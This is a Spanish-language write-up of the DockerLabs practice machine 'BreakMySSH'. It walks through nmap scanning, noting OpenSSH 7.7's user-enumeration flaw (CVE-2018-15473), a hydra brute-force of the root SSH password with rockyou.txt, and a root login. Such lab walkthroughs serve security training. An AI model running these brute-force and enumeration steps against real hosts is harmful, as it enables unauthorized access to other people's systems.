 ```yaml
---
title: BreakMySSH
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2024-12-13
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-breakmyssh/breakmyssh_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - password attacks
  - cve
  - ssh
  - tcp
  - information gathering
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()	Status: Up
Host: 127.17.0.2 ()	Ports: 22/open/tcp//ssh///	Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ sudo nmap -sCV -vvv -p22 -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfOr49bj2kh3ab2WutTu6Jx7NA7OKSxzp42bJU4nqtQlICZbjiBXhOa1ZKOfUfNvXOGEThiSrTNbf1nRGzXtACiZQp+RwQr5ZEYPAOyasC7C29FaIZVURR7FuFea+tfWZjbzDaP8WnA/U3TQHwtUBsNSR3qFscgJQ1niCyrfH/4rbUk5jiLYN6y8NjctGvsvwPE+cCiFVge76qyfzmZdaf5gJT9DKDt47iBkrngCODYrqqt+Bbl9ZEGh5SUfDqYfsFMIvlsSjmbx0HtMc2NhTW7jLtyV3Xm6ynFUZmQRPRqXdzuN5TIhYzaQD8ogC1Hk9sYJJNUMMF+lGVf15iouMn
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ77V//dhC1BX2KXpMNurk9hJPA3aukuoMLPajtYfaewmlwrsK5Rdss/I/iQ23YrziNvWb3VMJk511YbvvreZo=
|   256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICFLUqv+frul58FgQLXP91bNrTRC9d1X545DZJ0wsw6z
```

El único puerto abierto es el 22, y el servicio asociado es OpenSSH 7.7, el cual es vulnerable a enumeración de usuarios según CVE-2018-15473. Esta vulnerabilidad permite determinar si un usuario específico existe en el sistema.

<https://nvd.nist.gov/vuln/detail/cve-2018-15473>

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ searchsploit OpenSSH 7.7
```

![](/assets/img/dockerlabs-writeup-breakmyssh/breakmyssh1_1.png)

---
## Vulnerability Exploitation

Aunque la enumeración de usuarios es posible, puedo simplificar el ataque usando un usuario predeterminado, como root. Si la contraseña de este usuario se encuentra en una lista común, es viable realizar un ataque de fuerza bruta.

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ sudo hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

![](/assets/img/dockerlabs-writeup-breakmyssh/breakmyssh1_2.png)

```terminal
/home/kali/Documents/dockerlabs/breakmyssh:-$ ssh root@127.17.0.2
root@127.17.0.2's password: estrella
root@kali:~# id
uid=0(root) gid=0(root) groups=0(root)
```
